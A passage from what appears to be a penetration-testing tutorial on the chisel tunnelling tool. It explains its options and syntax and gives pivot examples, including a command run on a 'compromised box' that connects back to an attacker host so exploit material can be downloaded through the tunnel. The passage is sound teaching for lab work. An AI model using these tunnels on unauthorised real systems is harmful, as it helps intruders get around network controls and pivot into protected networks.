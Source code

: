There are other options I may want to add as well:

  * `--host` allows me to define which interface to listen on, with all of them (0.0.0.0) being the default.
  * `--key` allows me to generate a key pair used for the connection. This buys some security, but then again, the key will have to be sitting on the target box connecting back, so anyone who grabs it will be able to connect.
  * `--authfile` and `--auth` allow me to specify user names and password necessary to connect.
  * `-v` turns on verbose logging to the terminal.

### Client

I’ll move a copy of chisel to target, and run it as `./chisel client [server
ip]:[server port] [remote string] [optional more remote strings]`.

Running this will connect to the server given, and create a tunnel for each
give remote string.

Remote strings take the format of `<local-host>:<local-port>:<remote-
host>:<remote-port>` as defined by `chisel`. I think it’s more intuitive to
think of it as `<listen-host>:<listen-port>:<forward-host>:<forward-port>`,
but I’ll use the names `chisel` uses in this post.

Of the four items, only the remote port is required. If no `local-host` is
given, it will assume 0.0.0.0 on the client. If no `local-port` is give, it
will default to the same as the `remote-port`. If no `remote-host` is given,
it will default to the server. You can give it `R` for `local-host` to
indicate that you want to listen on the remote host (ie, open the listener on
the server). In that case, the tunnel will go in the reverse direction.

### Examples

#### Basic Client Listener

A silly example that illustrats listening on the client. I am on a target that
can’t connect to the internet, but can route to my attacking machine. I’ll use
`chisel` to create a tunnel to the site I want to download from as follows:

  * `./chisel server -p 8000` on my attacker box.
  * `./chisel client 1.1.1.1:8000 9001:www.exploit-db.com:443` on the compromised box. This will connect back to my box, and start a listener on the target box. Any traffic sent to that listening port will be tunneled to my box, and then routed to www.exploit-db.com.
  * I can then use `wget` or `curl` to connect to `127.0.0.1:9001` and get things from the site. Depending on how the site is configured, I may have to turn off certificate checking, and/or modify the headers (such as Host) to get it to connect.

![](https://0xdfimages.gitlab.io/img/chisel-1.png)

#### Basic Server Listener

A more interesting example is one like I faced in Reddish. I exploited a
webapp, and needed to pivot into the network behind it. Since I was in a
container, only the webapp port (in this case 1880) was forwarded through to
the container, so I couldn’t just listen on another port.
